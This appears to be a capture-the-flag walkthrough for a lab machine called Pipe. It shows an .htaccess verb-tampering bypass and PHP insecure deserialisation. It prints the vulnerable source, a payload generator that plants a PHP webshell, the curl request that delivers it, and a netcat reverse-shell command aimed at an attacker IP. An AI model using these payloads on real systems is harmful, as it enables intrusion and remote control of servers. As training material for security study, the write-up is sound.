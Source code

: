 ### Pipe - Insecure Deserialisation

Within this walkthrough, I will skip any part not related to the web application exploitation, but for sake of consistency I would briefly explain what (and why) I skip.

#### Intro

Pipe web application is made up on 3 PHP files only, not enough to be a challenge. But for anyone very unfamiliar with PHP Object injection it's good doing this excercise.

#### Vulnerability Discovery

The application is .htaccess protected, but easily accessible via HTTP verb tampering, as observable below:

```
AuthUserFile /var/www/html/.htpasswd
AuthName "index.php"
AuthType Basic
<Limit GET PUT HEAD OPTIONS DELETE>
    require valid-user
</Limit>
```

The index.php, below, reveal an interesting application behavior. In order to get the author information, an instance of Info is created within the page, then compared with a serialised object via an HTTP POST parameter "param".

Things to note:

* The POST parameter "param" is insecurely unserialised
* Two imports are present within the index file:
    - info.php (not a surprise)
    - log.php

Note: I have removed all the HTML unuseful bits.
```
<?php
include 'info.php';
include 'log.php';

$artist = new Info();
$artist->id = 1;
$artist->firstname = 'Rene';
$artist->surname = 'Margitte';
$artist->details = '...';

...
if (isset($_POST['param'])) {
    $info = unserialize($_POST['param']);
    if (strcasecmp($info->firstname, $artist->firstname) == 0 && strcasecmp($info->surname, $artist->surname) == 0){
        echo $artist->details;
    }
}
...
?>
```

The info class is just a structure with no methods. Let's focus on log.php:

```
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
        $this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
        $now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
        file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
```

We found the class we were searching for. The class holds two variables, $filename and $data, and upon destruction it writes the content of $data into $filename. It's perfectly suitable as a gadget for exploitation, as the __destruct() method will be called just after deserialisation.

High level explaination: 

1. HTTP POST with serialised Log is performed against index.php 
2. index.php (caller) calls unserialize and create an instance of Log via deserialisation
3. index.php (caller) reaches its end, 
4. The instance of the Log (callee) object has no reasons to stay in memory longer than its caller, so it gets destructed
5. __destruct()

#### Exploitation

We just need to craft a serialised instance of Log, to write something within the VM filesystem. Guess what? Right, a PHP webshell (or even a PHP reverse-shell as you like)

Crafting the payload:

* Create the file generate.php
```
<?php 
class Log
{  
    public $filename="/var/www/html/shell.php";
    public $data="<?php system(\$_GET['cmd']);?>";
}
print(urlencode(serialize(new Log))."\n"); 
?>
```
* Execute it
```
php generate.php
```
* Use it:
```
curl -ksi -X POST 'http://pipe.local/index.php' --data-binary 'param=O%3A3%3A%22Log%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A24%3A%22%2Fvar%2Fwww%2Fhtml%2Fshell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A29%3A%22%3C%3Fphp+system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22%3B%7D'
```
* Obtain a rversle shell
```
gnome-terminal -- nc -lvkp 443 2>/dev/null && curl -ksi http://pipe.local/shell.php?cmd=nc+-e+/bin/bash+MY_IP+443
```

#### Conclusion

Good machine to start with PHP deserialisation, but not even close to the level of complexity that OSWE can achieve.
